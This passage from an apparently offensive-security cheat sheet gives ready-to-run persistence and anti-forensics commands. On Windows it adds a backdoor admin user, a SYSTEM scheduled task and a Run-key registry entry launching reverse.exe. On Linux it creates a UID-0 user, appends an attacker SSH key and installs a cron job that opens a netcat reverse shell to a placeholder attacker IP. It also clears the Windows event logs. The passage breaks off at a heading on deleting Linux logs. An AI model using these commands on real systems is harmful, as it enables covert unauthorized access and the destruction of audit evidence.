 #### **Adding a New Admin User**

```powershell
net user hacker Pass123! /add  
net localgroup Administrators hacker /add  
```

#### **Creating a Persistent Scheduled Task**

```powershell
schtasks /create /tn "Backdoor" /tr "C:\reverse.exe" /sc onlogon /ru SYSTEM  
```

#### **Creating a Registry Backdoor**

```powershell
reg add HKLM\Software\Microsoft\Windows\CurrentVersion\Run /v Backdoor /t REG_SZ /d C:\reverse.exe  
```

* * *

### Linux Persistence Methods

#### **Creating a New Root User**

```bash
sudo useradd -o -u 0 -g 0 -M -d /root -s /bin/bash rootkit  
sudo passwd rootkit  
```

#### **Adding a Backdoor SSH Key**

```bash
echo "attacker-ssh-key" >> ~/.ssh/authorized_keys  
```

#### **Setting Up a Cron Job for Persistence**

```bash
echo "*/5 * * * * root /bin/bash -c 'nc -e /bin/bash <attacker-IP> 4444'" | sudo tee -a /etc/crontab  
```

* * *

## 9\. Cleaning Up - Covering Tracks

### Clearing Windows Event Logs

```powershell
wevtutil cl System  
wevtutil cl Security  
wevtutil cl Application  
```

### Deleting Linux Logs
